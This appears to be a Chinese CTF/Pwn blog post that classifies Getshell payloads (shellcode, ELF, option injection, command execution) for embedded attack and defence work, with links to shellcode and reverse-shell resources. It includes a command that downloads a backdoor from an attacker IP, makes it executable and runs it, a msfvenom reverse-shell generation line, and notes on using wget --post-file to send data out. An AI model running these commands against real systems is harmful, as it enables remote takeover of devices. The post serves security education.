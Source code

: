 ```yaml
---
title: Getshell载荷：payload的量级
date: 2020-12-13 00:00:02
categories:
- CTF/Pwn
tags: Getshell
---
```


> Getshell的背后就是代码执行，执行的是shell程序，并且此进程的输入输出可控。不过由于漏洞位置不同，输入点不同，达到Getshell目标的攻击载荷也不同。可以按照攻击载荷的量级来对payload进行分类，个人分为如下四类：shellcode，ELF，param，command。

|      | shellcode | ELF            | param                       | command           |
| ---- | --------- | -------------- | --------------------------- | ----------------- |
| 格式 | binary    | binary         | 字符串                      | 字符串            |
| 底座 | 内存破坏  | 可控ELF执行    | 某命令参数可控              | shell命令可控     |
| 进程 | 漏洞进程  | 被执行的新进程 | 漏洞进程/其启动的新进程 | shell启动的新进程 |

并且量级的payload间是存在包含关系，因为到最后是一定要建立远程连接和执行shell程序的：

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/payload.png)


在嵌入式攻防的情景中，命令执行的payload常是下载我们构造的后门ELF程序，然后执行，所以我们的payload其实包含了两部分：ELF, command。如下我们先要自己编译出这个rsc后门，然后命令执行：

```python
cmd  =  "cd /tmp &&"
cmd +=  "wget http://192.168.1.100:8000/rsc &&"
cmd +=  "chmod 777 ./rsc &&" 
cmd +=  "./rsc 192.168.1.100 8888"
```

最后如果不同意本文的量级划分，也可以参考msfvenom中的类型来划分payload：

```bash
➜  msfvenom --list formats
```

## 内存破坏: shellcode

> 具体参考：[IoT安全研究视角的交叉编译:shellcode](https://xuanxuanblingbling.github.io/ctf/tools/2021/02/16/cross/)

总结shellcode一般有如下五种办法获得：

1. pwntools: asm(shellcraft.arm.linux.sh(),arch='arm')
2. msfvenom: msfvenom -p linux/armle/shell/reverse_tcp LHOST=192.168.1.100  LPORT=6666 -f py -o msf.py
3. shell-storm: [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)
4. exploit-db: [https://www.exploit-db.com/shellcodes](https://www.exploit-db.com/shellcodes)
5. 自己编译：[StarCTF 2021 RISC-V Pwn Favourite Architecture: shellcode编写练习](https://xuanxuanblingbling.github.io/ctf/pwn/2021/01/22/riscv/)

其中pwntools和自己编译两种方法是的确要进行本地编译的，不过这里的交叉编译工具就只要符合该指令集即可，没有C库的限制，因为一般来说不需要libc。

## 后门程序: ELF

> 具体参考：[IoT安全研究视角的交叉编译:ELF](https://xuanxuanblingbling.github.io/ctf/tools/2021/02/16/cross/)

如果要产出一个ELF的话，一般来说是有以下3种方法：

1. 自己编译：需要对应架构的完整的交叉编译工具链
2. pwntools：需要对应架构的binutils
3. msfvenom：不需要交叉编译工具，shellcode是现成的

## 选项注入: param

> 即无法逃逸出某个命令本体，只能任意构造该命令的选项参数加以利用，在CTF的Web中可能更常见。例如：使用wget的`--post-file`参数带出数据、使用find的`-exec`参数命令执行等。

linux中各种命令可以利用的选项总结：[https://gtfobins.github.io/](https://gtfobins.github.io/)
，其他示例：

- [XCTF高校战疫 移动赛题GetFlag出题记录](https://xuanxuanblingbling.github.io/ctf/android/2020/03/16/getflag/)
- [命令注入新玩法：巧借环境渗透测试目标](https://www.freebuf.com/articles/web/194574.html)
- [Bitbucket服务器参数注入漏洞(CVE-2019-15000)](https://caiqiqi.github.io/2019/11/03/Bitbucket%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%8F%82%E6%95%B0%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E-CVE-2019-15000/)
- [bandit通关笔记:25-26](https://mp.weixin.qq.com/s/1pekcCj82qYT_YQcVkgcXw)

## 命令执行: command

> python、php等脚本程序执行算在这里，在Web情景中也可以称作代码注入。不过将此种情景算作选项注入也有道理，可看做解释程序固定，解释内容可控，内容就是解释程序的选项参数。如果可以任意的选择我用什么东西解释，python还是php等，这就得算命令执行了。怎么说都有理，理解即可。

- [Reverse Shell Cheat Sheet](https://github.com/flast101/reverse-shell-cheatsheet)
- [Linux下几种常见的反弹shell方式](https://www.jianshu.com/p/9456473a0a14)
- [Linux OS 命令注入指北](https://www.tr0y.wang/2019/05/13/OS%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%8C%87%E5%8C%97/)
- [巧用命令注入的N种方式](https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/)